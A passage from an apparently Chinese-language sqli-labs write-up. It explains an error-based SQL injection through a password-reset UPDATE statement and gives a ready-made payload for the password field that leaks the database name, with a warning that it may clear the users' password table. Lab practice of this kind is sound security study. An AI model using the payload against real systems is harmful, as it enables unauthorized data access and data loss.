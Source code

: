 
<font color="red"> 
参数是用 单引号' 闭合的
sql语句：`update tables set password='$NewPassword' where username='$username' limit 0,1`
</font>

## 1.2 获取数据库信息
<font color="red">注意，下面的注入，一不小心可能把数据库的user表的密码表给清空了</font>

编译正确，但运行可能出错的sql语句，如果不懂sql语句的构造过程，请参见[sqli labs lesson 5~7 学习](http://huirong.github.io/2016/08/25/sqli-labs-series-lesson5-7/)lesson 5
`select count(*),(concat("~",database(),"~",floor(rand()*2)))c from information_schema.tables group by c`

但是上诉sql语句查询结果有多列，因此需从中选取一列
`select 1 from (select count(*),(concat("~",database(),"~",floor(rand()*2)))c from information_schema.tables group by c)a`

- username：`admin`
- new password：`' or (select 1 from (select count(*),(concat("~",database(),"~",floor(rand()*2)))c from information_schema.tables group by c)a)#`

多次运行之后，可能出现如下错误：
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f7ecqle3ivj30k00fgn0l.jpg)

数据库名字会显示在页面上，以相同的方法获取数据库其他信息，具体过程，参见参见[sqli labs lesson 5~7 学习](http://huirong.github.io/2016/08/25/sqli-labs-series-lesson5-7/)lesson 5。


